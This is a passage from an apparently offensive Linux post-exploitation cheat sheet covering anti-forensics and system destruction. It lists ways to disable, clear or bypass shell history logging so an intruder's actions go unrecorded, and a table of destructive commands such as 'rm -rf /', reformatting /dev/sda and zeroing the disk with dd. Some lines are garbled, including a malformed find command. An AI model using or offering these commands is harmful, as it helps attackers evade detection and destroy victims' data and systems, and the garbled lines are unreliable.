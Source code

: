 Also, check http://incolumitas.com/wp-content/uploads/2012/12/blackhats_view.pdf for some one-liners that find world writable directories/files and more.

<a name="tracks"/></a>
## Covering Your Tracks

<a name="avoid_history"/></a>
### Avoiding history filesmys

* export HISTFILE=  
or  
* unset HISTFILE

This next one might not be a good idea, because a lot of folks know to check for tampering with this file, and will be suspicious if they find out.

However if you happen to be on an account that was originally inaccessible, if the .bash_history file is available (ls -a ~), viewcating its contents can provide you with a good deal of information about the system and its most recent updates/changes.  
clear all history in ram

*  history -c
*  rm -rf ~/.bash_history && ln -s ~/.bash_history /dev/null (invasive)
*  touch ~/.bash_history (invasive)
*  <space> history -c (using a space before a command)
*  zsh% unset HISTFILE HISTSIZE
*  tcsh% set history=0
*  bash$ set +o history
*  ksh$ unset HISTFILE
*  find / -type f -exec {} (forensics nightmare)

Note that you’re probably better off modifying or temporary disabling rather than deleting history files, it leaves a lot less traces and is less suspect.

In some cases HISTFILE and HISTFILESIZE are made read-only; get around this by explicitly clearing history (history -c) or by kill -9 $$’ing the shell. Sometimes the shell can be configured to run ‘history -w’ after every command; get around this by overriding ‘history’ with a no-op shell function. None of this will help if the shell is configured to log everything to syslog, however.

<a name="destroy"/><a>
### Deleting and Destroying

**If it is necessary to leave the machine inaccessible or unusable. Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.**  
**Oh, and you’re probably a jerk if you use any of the stuff below.**

| File                                  | Description and/or Reason                                     |
| ------------------------------------- | ------------------------------------------------------------- |
| rm -rf /                              | This will recursively try to delete all files                 |
| mkfs.ext3 /dev/sda                    | Reformat the device mentioned, making recovery of files hard  |
| dd if=/dev/zero of=/dev/sda bs=1M     | Overwrite disk /dev/sda with zeros                            |
